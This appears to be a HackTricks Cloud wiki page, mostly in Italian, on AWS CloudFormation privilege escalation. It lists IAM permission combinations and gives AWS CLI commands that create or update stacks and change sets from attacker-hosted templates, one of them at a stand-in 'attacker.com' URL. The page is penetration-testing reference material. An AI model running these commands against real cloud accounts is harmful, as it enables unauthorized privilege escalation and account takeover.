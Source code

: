 # AWS - Cloudformation Privesc

{% hint style="success" %}
Impara e pratica Hacking AWS:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Impara e pratica Hacking GCP: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}

## cloudformation

Per ulteriori informazioni su cloudformation controlla:

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

Un attaccante con questi permessi **può elevare i privilegi** creando un **CloudFormation stack** con un template personalizzato, ospitato sul proprio server, per **eseguire azioni sotto i permessi di un ruolo specificato:**
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
In the following page you have an **esempio di sfruttamento** con il permesso aggiuntivo **`cloudformation:DescribeStacks`**:

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**Impatto Potenziale:** Privesc al ruolo di servizio cloudformation specificato.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

In questo caso puoi **sfruttare uno stack cloudformation esistente** per aggiornarlo e aumentare i privilegi come nel scenario precedente:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
Il permesso `cloudformation:SetStackPolicy` può essere utilizzato per **darti il permesso `UpdateStack`** su uno stack e eseguire l'attacco.

**Impatto Potenziale:** Privesc al ruolo di servizio cloudformation specificato.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

Se hai questo permesso ma **nessun `iam:PassRole`** puoi comunque **aggiornare gli stack** utilizzati e abusare dei **ruoli IAM che hanno già allegato**. Controlla la sezione precedente per un esempio di exploit (basta non indicare alcun ruolo nell'aggiornamento).

Il permesso `cloudformation:SetStackPolicy` può essere utilizzato per **darti il permesso `UpdateStack`** su uno stack e eseguire l'attacco.

**Impatto Potenziale:** Privesc al ruolo di servizio cloudformation già allegato.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Un attaccante con permessi per **passare un ruolo e creare & eseguire un ChangeSet** può **creare/aggiornare un nuovo stack cloudformation abusando dei ruoli di servizio cloudformation** proprio come con CreateStack o UpdateStack.

Il seguente exploit è una **variazione del**[ **CreateStack one**](./#iam-passrole-cloudformation-createstack) utilizzando i **permessi ChangeSet** per creare uno stack.
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
Il permesso `cloudformation:SetStackPolicy` può essere utilizzato per **darti i permessi `ChangeSet`** su uno stack e eseguire l'attacco.

**Impatto Potenziale:** Privesc ai ruoli di servizio cloudformation.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Questo è simile al metodo precedente senza passare **ruoli IAM**, quindi puoi semplicemente **sfruttare quelli già attaccati**, basta modificare il parametro:
```
--change-set-type UPDATE
```
**Impatto Potenziale:** Privesc al ruolo di servizio cloudformation già allegato.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

Un attaccante potrebbe abusare di queste autorizzazioni per creare/aggiornare StackSets per abusare di ruoli cloudformation arbitrari.

**Impatto Potenziale:** Privesc ai ruoli di servizio cloudformation.

### `cloudformation:UpdateStackSet`

Un attaccante potrebbe abusare di questa autorizzazione senza il permesso passRole per aggiornare StackSets per abusare dei ruoli cloudformation allegati.

**Impatto Potenziale:** Privesc ai ruoli cloudformation allegati.

## Riferimenti

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
